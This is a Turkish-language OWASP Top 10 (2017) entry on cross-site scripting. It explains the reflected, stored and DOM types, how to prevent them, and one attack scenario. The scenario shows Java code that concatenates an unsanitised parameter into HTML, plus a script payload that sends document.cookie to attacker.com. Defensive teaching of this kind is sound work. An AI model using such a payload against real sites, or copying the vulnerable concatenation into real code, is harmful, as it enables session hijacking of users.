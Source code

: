 # A7:2017 Siteler Arası Betik Çalıştırma (XSS)

| Tehdit etkenleri/Saldırı vektörleri | Güvenlik zafiyeti           | Etkiler               |
| -- | -- | -- |
| Erişim Düzeyi : İstismar Edilebilirlik 3 | Yaygınlık 3 : Tespit Edilebilirlik 3 | Teknik 2 : İş |
| Otomatize araçlar XSS'in 3 türünü de tespit ve istismar edebilmektedir. Ayrıca ücretiz olarak erişilebilir istismar araçları da bulunmaktadır. | XSS OWASP İlk 10 içerisindeki en yaygın ikinci problemdir ve tüm uygulamaların yaklaşık üçte ikisinde görülmektedir. Otomatize araçlar, özellikle PHP, J2EE / JSP ve ASP.NET gibi olgun teknolojilerde otomatik olarak bazı XSS problemlerini bulabilmektedir. | Yansıtılmış ve DOM XSS için etki orta düzeyde ve depolanmış XSS için giriş bilgilerini ve oturumları çalma veya kurbana zararlı yazılım bulaştırma gibi kurbanın tarayıcısında uzaktan kod çalıştırmada olduğu gibi ciddi düzeydedir. |

## Uygulamam Açıklık İçeriyor Mu?

Genellikle kullanıcıların tarayıcılarını hedef alan XSS'in üç farklı türü bulunmaktadır:

- **Yansıtılmış XSS**: Uygulama veya API, HTML çıktısının bir parçası olarak doğrulanmamış veya sterilize edilmemiş kullanıcı girdisi içermektedir. Başarılı bir saldırı saldırganın kurbanın tarayıcısında istediği HTML veya JavaScript kodunu çalıştırmasına izin vermektedir. Genellikle, kullanıcının zararlı Watering Hole web sayfaları, reklamlar veya benzerleri gibi saldırgan tarafından kontrol edilen bir sayfaya işaret eden kötücül bir bağlantı ile etkileşime geçmesi gerekmektedir.
- **Depolanmış XSS**: Uygulama veya API başka bir kullanıcı veya bir yönetici tarafından daha sonra görüntülenecek sterilize edilmemiş bir kullanıcı girdisini saklamaktadır. Depolanmış XSS genellikle yüksek veya kritik bir bulgu olarak değerlendirilmektedir.
- **DOM XSS**: Bir sayfa üzerinde saldırgan tarafından kontrol edilebilen veriyi dinamik olarak ekleyen JavaScript çerçeveleri, tek sayfa uygulamaları ve API'ler DOM XSS zafiyeti içermektedir. İdeal olarak, uygulama saldırgan tarafından kontrol edilen veriyi güvensiz JavaScript API'lerine yollamayacaktır.

Sıradan XSS saldırıları oturum çalma, hesap ele geçirme, MFA atlatma, DOM nod değiştirme veya bozma (trojan giriş panelleri gibi), zararlı yazılım indirme, klavye kaydetme ve diğer istemci taraflı saldırılar gibi kullanıcının tarayıcısına karşı yapılan saldırılardır.

## Nasıl Önlenir

XSS açıklığının önlenmesi güvenilmeyen verinin aktif tarayıcı içeriğinden ayırılmasını gerektirmektedir. Bu aşağıdakiler aracılığıyla yapılabilmektedir:

- Ruby on Rails, React JS gibi tasarımsal olarak XSS'i kendiliğinden sterilize eden çerçevelerin kullanımı. Her bir çerçevenin XSS koruma limitleri öğrenilmeli ve kapsamları dışında kalan kullanım örneklerinin üstesinden gelinmelidir.
- HTML çıktısında yer aldığı bağlama göre (body, attribute, JavaScript, CSS veya URL) güvenilmeyen HTTP isteği girdilerinin sterilize edilmesi Yansıtılmış ve Depolanmış XSS açıklıklarını çözecektir. [OWASP Kopya Kağıdı: XSS Korumaları](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) gerekli veri sterilizasyon teknikleri ile ilgili detayları içermektedir.
- İstemci tarafındaki tarayıcı dokümanı değiştirilirken bağlama duyarlı kodlamanın kullanılması DOM XSS açıklığına karşı koruma sağlamaktadır. Bu durum kaçınılmaz olduğunda, OWASP Kopya Kağıdı: DOM tabanlı XSS Koruması isimli dokümanda belirtildiği gibi bağlama duyarlı strelizasyon teknikleri tarayıcı API'lerine uygulanabilir.
- XSS'e karşı derinlemesine savunma kontrolü olarak bir [İçerik Güvenlik Politikası'nın (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) kullanılması. Eğer iç dosya ekleme(örn. dizin aşımı veya izin verilen içerik teslim ağlarından zafiyet içeren kütüphaneler) aracılığıyla zararlı kodun eklenmesine yol açabilecek başka bir açıklık bulunmuyorsa, etkili olacaktır.

## Örnek Saldırı Senaryoları

**Senaryo #1**: Uygulama doğrulama veya sterilizasyon olmadan aşağıdaki HTML parçasının oluşturulmasında güvenilmeyen veriyi kullanmaktadır.

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Saldırgan tarayıcısında 'CC' parametresini aşağıdaki gibi değiştirmektedir:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Bu saldırı kurbanın oturum ID değerinin saldırganın sitesine yollanmasına yol açmakta, bu durum da saldırganın kullanıcının mevcut oturumunu ele geçirmesine izin vermektedir.

**Not**: Saldırganlar uygulamada kullanılacak herhangi bir otomatize Siteler Arası İstek Sahteciliği (CSRF) korumasını atlatmak için XSS açıklığını kullanabilmektedir.

## Kaynaklar

### OWASP

- [OWASP Proaktif Kontroller: Verinin Kodlanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Proaktif Kontroller: Verinin Doğrulanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Uygulama Güvenliği Doğrulama Standardı: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [OWASP Test Rehberi: Yansıtılmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP Test Rehberi: Depolanmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [OWASP Test Rehberi: DOM XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [OWASP Kopya Kağıdı: XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Kopya Kağıdı: DOM tabanlı XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Kopya Kağıdı: XSS Filtre Atlatma](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [OWASP Java Encoder Projesi](https://owasp.org/www-project-java-encoder/)

### Dış Kaynaklar

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
